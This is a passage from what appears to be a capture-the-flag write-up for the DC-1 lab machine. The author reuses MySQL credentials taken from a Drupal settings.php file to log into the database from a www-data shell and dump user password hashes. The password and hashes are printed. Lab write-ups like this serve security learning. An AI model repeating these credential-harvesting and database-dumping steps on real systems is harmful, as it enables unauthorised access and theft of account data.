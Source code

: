       'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
.........
{% endhighlight %}

### flag 3

Using the mysql credentials found in **settings.php** I sucessfully connected and could access the **drupaldb** database and went straight for the users table but it was not possible to crack the hashes 


{% highlight bash %}

www-data@DC-1:/tmp$ mysql -u dbuser -p
mysql -u dbuser -p
Enter password: R0ck3t

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19893
Server version: 5.5.60-0+deb7u1 (Debian)


mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+
2 rows in set (0.01 sec)

mysql> use drupaldb
use drupaldb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

select uid,name,pass from users;
+-----+-------+---------------------------------------------------------+
| uid | name  | pass                                                    |
+-----+-------+---------------------------------------------------------+
|   0 |       |                                                         |
|   1 | admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
|   2 | Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
|   3 | test  | $S$DfRd9Oy3cmNH19AaTvrsJmMmqDJ4RnEhekTRuXShDQmwjauuIGkf |
+-----+-------+---------------------------------------------------------+
4 rows in set (0.00 sec)
{% endhighlight %}
